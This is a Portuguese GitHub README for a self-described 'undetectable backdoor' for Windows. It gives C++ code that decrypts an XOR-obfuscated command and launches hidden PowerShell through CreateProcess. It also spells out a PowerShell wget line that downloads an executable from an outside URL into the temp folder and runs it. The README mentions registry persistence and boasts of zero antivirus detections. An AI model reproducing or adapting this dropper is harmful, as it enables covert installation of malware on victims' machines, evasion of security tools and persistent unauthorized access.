 # Backdoor-Indetectavel
A função do backdoor é fazer download de um executável via powershell direto na pasta e temp, em seguida executar o arquivo, tudo usando uma função onde a janela do console fica no modo em que não seja visível para o usuário. Esse método é comum em criadores de malware, onde muitos usam métodos mais complexos para evitar a detecção, como programar um arquivo onde ele fica dormindo até alguém pressionar uma tecla, ou até atingir um certo tempo, etc..  

### Criptografia Xor
A matemática da criptografia xor que fiz foi bem simples, onde a chave da criptação é o tamanho da string vezes 2 divido por 100, fazendo com que a chave seja a própia string desejada, se quiser saber mais sobre criptografica xor que fiz ![clica aqui](https://github.com/andreyquerino/CriptografiaXor).
```c++
void Decrypter(char CriptXor[]) {  
    int QuantidadeString = strlen(CriptXor); // Determina o tamanho da string.
    for (int i = 0; i < QuantidadeString; i++){ 
        CriptXor[i] = CriptXor[i] ^ (QuantidadeString*2/100); // A chave da criptografia é o tamanho da string * 2 / 100.
    } 
} 
```
![Encript](https://user-images.githubusercontent.com/88719652/129620582-31e6f1bc-1025-4365-8511-b6aac50d4ac0.png)

### CreateProcess
Essa parte do código cria o processo powershell usando API do windows, mas antes, A função Decrypter vai fazer a decodificação antes de abrir o processo onde os seguintes comando são coordenados para fazer o download do executável MrQuerino.exe via "wget", alocando na pasta temp com o nome de WelCome.exe e na sequência executando.

> powershell.exe wget https://github.com/andreyquerino/Backdoor-Indetectavel/blob/main/MrQuerino.exe?raw=true -o C:\\windows\\temp\\WelCome.exe;start C:\\windows\\temp\\WelCome.exe

```c++
void Run() {
   char processo[] = "sltfqpkfoo-f{f#tdfw#kwwsp9,,djwkva-`ln,bmgqfzrvfqjml,Ab`hgllq.Jmgfwf`wbufo,aola,nbjm,NqRvfqjml-f{f<qbt>wqvf#.l#@9__tjmgltp__wfns__Tfo@lnf-f{f8pwbqw#@9__tjmgltp__wfns__Tfo@lnf-f{f";
   Decrypter(processo); //Função para decriptar
   STARTUPINFO pinfo; //contém detalhes de como todas as coisas devem ser cuidadas antes do início do processo 
   PROCESS_INFORMATION info; //contém detalhes sobre o novo processo, processo pai, seu processo filho, outros threads e como ele funcionará 
   memset(&pinfo, 0, sizeof(pinfo));
   CreateProcess(NULL, processo, NULL, NULL, TRUE, CREATE_NO_WINDOW, NULL, NULL, &pinfo, &info); //API CreateProcess que cria um processo powershell.exe usando a variável acima e canaliza a entrada, saída e erro para o HANDLE usando o & info criado acima
}
```
https://user-images.githubusercontent.com/88719652/129621046-196b336d-e839-473c-8691-9380c64cf998.mp4

### Persistência
Como bônus tive liberdade criar um registro de persistência no windows onde toda vez que iniciar o sistema abra o executável.
<br />
![persistencia](https://user-images.githubusercontent.com/88719652/129620696-eac13434-65d5-407f-8987-7b69fdc930f2.png)


### Virus Total 
Até a data desta postam, não teve detecção no virus total.
https://www.virustotal.com/gui/file/8ff653ded39076b02dea1ab8ec367afc16d2b8e8e5f6c7e92b1a8572f2147748/detection 
<br />
![virus-total](https://user-images.githubusercontent.com/88719652/129620707-6fe47fc6-3df1-44e9-aea7-15f0c8aa3494.png)

